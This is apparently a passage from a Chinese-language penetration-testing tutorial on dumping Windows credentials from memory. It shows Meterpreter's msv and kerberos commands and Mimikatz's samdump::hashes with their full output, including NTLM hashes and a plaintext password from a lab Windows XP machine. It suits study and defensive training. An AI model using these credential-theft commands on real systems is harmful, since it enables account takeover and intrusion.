 ## 0x02 从内存中读取 hash 和密码

* * *

我们既可以使用 metasploit 内建的命令也可以使用 mimikatz 自带的命令来从目标机器上导出 hash 和明文证书。

**Built-In Metasploit**: **msv credentials**

```
meterpreter > msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

AuthID   Package    Domain           User              Password
------   -------    ------           ----              --------
0;78980  NTLM       WINXP-E95CE571A1  Administrator     lm{ 00000000000000000000000000000000 }, ntlm{ d6eec67681a3be111b5605849505628f }
0;996    Negotiate  NT AUTHORITY     NETWORK SERVICE   lm{ aad3b435b51404eeaad3b435b51404ee }, ntlm{ 31d6cfe0d16ae931b73c59d7e0c089c0 }
0;997    Negotiate  NT AUTHORITY     LOCAL SERVICE     n.s. (Credentials KO)
0;56683  NTLM                                          n.s. (Credentials KO)
0;999    NTLM       WORKGROUP        WINXP-E95CE571A1$  n.s. (Credentials KO)

```

**kerberos credentials**

```
meterpreter > kerberos
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
====================

AuthID   Package    Domain           User              Password
------   -------    ------           ----              --------
0;999    NTLM       WORKGROUP        WINXP-E95CE571A1$  
0;997    Negotiate  NT AUTHORITY     LOCAL SERVICE     
0;56683  NTLM                                          
0;996    Negotiate  NT AUTHORITY     NETWORK SERVICE   
0;78980  NTLM       WINXP-E95CE571A1  Administrator     SuperSecretPassword

```

**Native Mimikatz**:

```
meterpreter > mimikatz_command -f samdump::hashes
Ordinateur : winxp-e95ce571a1
BootKey    : 553d8c1349162121e2a5d3d0f571db7f

Rid  : 500
User : Administrator
LM   : 
NTLM : d6eec67681a3be111b5605849505628f

Rid  : 501
User : Guest
LM   : 
NTLM : 

Rid  : 1000
User : HelpAssistant
LM   : 6165cd1a0ebc61e470475c82cd451e14
NTLM : 
```